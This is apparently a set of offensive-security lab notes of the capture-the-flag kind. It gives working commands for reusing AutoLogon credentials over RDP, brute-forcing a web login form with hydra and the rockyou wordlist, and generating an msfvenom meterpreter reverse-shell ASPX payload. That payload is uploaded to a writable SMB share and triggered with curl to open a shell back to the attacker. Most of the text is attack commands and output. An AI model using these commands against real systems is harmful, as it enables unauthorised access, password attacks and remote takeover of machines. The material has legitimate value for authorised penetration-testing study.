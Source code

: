 AutoLogon creds
-
During our privilege escalation proccess, if we got this creds using ```winPEAS.exe``` binary we could use them to RDP over the target machine.
![Screenshot from 2024-10-06 00-51-57](https://github.com/user-attachments/assets/9baed7c0-548c-4a51-9a5e-149b51864e14)

```
xfreerdp /u:administrator /p:<password> /v:<target ip>
```

Brute force login pages using hydra
-

```
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
```
After filling in the placeholders, here’s our actual command!

```
sudo hydra -s 80 -L ~/path/to/our/nameslist -P /usr/share/wordlists/rockyou.txt <our target> https-post-form "/login/index.php:username=^USER^&password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

Since the network share from ‘test’ is writeable, we can use it for a reverse shell.
-

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<our ip> lport=1234 -f aspx -o shell.aspx
```
Then upload the reverse shell file to the network share.
```
└─$ smbclient \\\\<targetIp>\\test
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (149.1 kb/s) (average 149.1 kb/s)
```
Create a listener on the attacker’s machine useing `exploit/multi/handler` 

Finally, Invoke the reverse shell we uploaded to the network share.
```
└─$ curl http://<targetIp>/test/shell.aspx
```
We got the reverse shell
